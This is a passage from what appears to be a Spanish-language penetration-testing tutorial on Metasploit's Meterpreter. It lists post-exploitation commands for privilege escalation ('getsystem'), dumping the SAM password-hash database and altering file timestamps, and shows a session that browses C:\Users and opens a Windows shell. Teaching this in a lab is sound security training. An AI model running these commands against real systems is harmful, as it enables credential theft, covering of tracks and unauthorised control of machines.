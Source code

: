 ```r
    play          play a waveform audio file (.wav) on the target system


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    get system     Attempt to elevate your privilege to that of the local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestamp Commands
========================

    Command       Description
    -------       -----------
    timestamp     Manipulate file MACE attributes
```

Bastante impresionante. Desde extraer hashes de usuario del SAM hasta tomar capturas de pantalla y activar webcams. Todo esto se hace desde la comodidad de una línea de comandos estilo Linux. Explorando más, también vemos la opción de abrir un canal shell. Esto nos colocará en la interfaz de línea de comandos real de Windows.

### MSF - Meterpreter Navigation

```r
meterpreter > cd Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   

 2017-07-21 06:56:23 +0000  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 03:20:08 +0000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 03:20:08 +0000  Public
100666/rw-rw-rw-  174   fil   2009-07-14 04:54:24 +0000  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 13:45:33 +0000  haris


meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>
```